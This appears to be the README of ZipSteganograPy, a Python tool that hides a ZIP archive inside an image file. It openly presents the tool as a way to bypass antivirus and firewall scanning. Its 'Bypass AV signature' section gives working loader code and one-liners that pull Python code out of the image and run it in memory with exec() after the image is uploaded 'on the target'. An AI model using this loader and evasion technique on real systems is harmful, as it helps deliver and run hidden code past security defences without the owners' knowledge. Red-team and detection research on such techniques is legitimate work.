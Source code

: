 ![ZipSteganograPy logo](https://mauricelambert.github.io/info/python/security/ZipSteganograPy_small.png "ZipSteganograPy logo")

# ZipSteganograPy

## Description

This tool hides a ZIP archive in an image.

This tool is useful for bypassing antivirus and firewall scanning.

## Requirements

This package require:

 - python3
 - python3 Standard Library

## Installation

```bash
pip install ZipSteganograPy
```

## Usages

```bash
# Hide a ZIP archive in an image:
python3 ZipSteganograPy.py -z archive.zip -o stegano -i image.png
python3 ZipSteganograPy.pyz -z archive.zip -o stegano -i image.jpg

# Create a ZIP archive (with 3 text files) and hide it in an image:
python3 -m ZipSteganograPy -f file1.txt file2.txt file3.txt -i image.jpg
ZipSteganograPy -f file1.txt file2.txt file3.txt -i image.png

# Easily extract the hidden archive using python3 and its standard library:
python3 -m zipfile -l stegano.png            # list files
python3 -m zipfile -e stegano.jpg output/    # extract

# Easily extract the hidden archive using unzip package:
unzip stegano.jpg -l                         # list files
unzip stegano.jpg -d output/                 # extract
```

### Bypass AV signature

This example load a python code from an image and execute it without writing it on the disk.

This method bypass:

[x] basic anti-virus analyze based on signatures of files written on the disk
[ ] behavior module
[ ] process memory analyze

```python
from zipfile import ZipFile
with ZipFile("stegano.png", "r") as f:
    for filename in f.namelist():
        exec(f.read(filename).decode())
```

#### Demonstration

On your computer:

```sh
ZipSteganograPy -f hello.py -i ZipSteganograPy_small.png
# ZipSteganograPy  Copyright (C) 2022  Maurice Lambert
# This program comes with ABSOLUTELY NO WARRANTY.
# This is free software, and you are welcome to redistribute it
# under certain conditions.

# New image 'stegano.png' created from 'ZipSteganograPy_small.png' with hidden ZIP archive.
```

Upload the `stegano.png` file on the target (the zip file will probably not anlyze by firewalls because the file will be detected as a correct image).

On the target (unzip from image and execute your python code without writing it on the disk):

```python
from zipfile import ZipFile
with ZipFile("stegano.png", "r") as f:
    for filename in f.namelist():
        exec(f.read(filename).decode())
```

```python
import zipfile;f=zipfile.ZipFile("stegano.png", "r");[exec(f.read(filename).decode()) for filename in f.namelist()]
```

```sh
python3 -c 'import zipfile;f=zipfile.ZipFile("stegano.png", "r");[exec(f.read(filename).decode()) for filename in f.namelist()]'
```

#### Proof

![Bypass AV proof](https://raw.githubusercontent.com/mauricelambert/ZipSteganograPy/main/BypassAntivirus_Stegano.PNG "Bypass AV proof")

![Working proof](https://raw.githubusercontent.com/mauricelambert/ZipSteganograPy/main/demo.png "Working proof")

![Working proof](https://raw.githubusercontent.com/mauricelambert/ZipSteganograPy/main/demo1.png "Working proof")

## Links

 - [Github Page](https://github.com/mauricelambert/ZipSteganograPy/)
 - [Pypi package](https://pypi.org/project/ZipSteganograPy/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/ZipSteganograPy.html)
 - [Python Executable](https://mauricelambert.github.io/info/python/security/ZipSteganograPy.pyz)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
